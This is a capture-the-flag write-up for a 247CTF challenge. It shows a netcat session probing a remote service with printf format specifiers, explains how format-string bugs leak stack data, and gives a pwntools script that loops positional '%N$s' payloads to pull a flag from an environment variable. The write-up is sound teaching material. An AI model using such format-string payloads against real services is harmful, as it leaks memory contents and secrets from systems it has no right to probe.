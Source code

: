 # CONFUSED ENVIRONMENT READ

Can you abuse our confused environment service to read flag data hidden in an environment variable?

---

Thers's no binary file this time.

let's connect to the challenge:

---

```bash
❯ nc 85ddfb51ed35bf14.247ctf.com 50083
Argh, I can't see who you are!
What's your name again?
%S
Oh, that's right! Welcome back !
Argh, I can't see who you are!
What's your name again?
%X
Oh, that's right! Welcome back 5664E877!
Argh, I can't see who you are!
What's your name again?
%s%s
Oh, that's right! Welcome back 
 eWeW`W`W`W`W`W`W!
Argh, I can't see who you are!
What's your name again?

Oh, that's right! Welcome back !
Argh, I can't see who you are!
What's your name again?
%s
Oh, that's right! Welcome back 
!
Argh, I can't see who you are!
What's your name again?
%s
Oh, that's right! Welcome back 
!
Argh, I can't see who you are!
What's your name again?
%s
Oh, that's right! Welcome back 
!
Argh, I can't see who you are!
What's your name again?
%s
Oh, that's right! Welcome back 
!
Argh, I can't see who you are!
What's your name again?
%s%s%s
Oh, that's right! Welcome back 
 gWgW`W`W`W`W`W`W(!
Argh, I can't see who you are!
What's your name again?
```

---


In essence, the vulnerability arises from the variable number of arguments that printf and all other functions in the family have. The quantity of format specifiers (characters beginning with %) in the format string itself determines the amount of parameters. Put differently, a format string such as printf("Exploit %s, not %s.", "code", "people"); expects two arguments, and the function will pull them from the stack regardless of whether the function was called correctly. In other words, even though four parameters were not supplied when calling the function, the expression printf("%x%x%x%x"); will print four arguments from the stack as hexadecimal.


---


exploit:

---

```python3
from pwn import *

for index in range(1,100):
	payload = "%{}$s".format(index)
	binary = remote("URL", PORT)

	binary.recv()
	binary.sendline(payload)
	response = binary.recv()

	try:
		if b"247CTF" in response:
			print("[+] found the flag {}.".format(index))
			print(response)
			break

	except Exception as ex:
		binary.close()

```

---
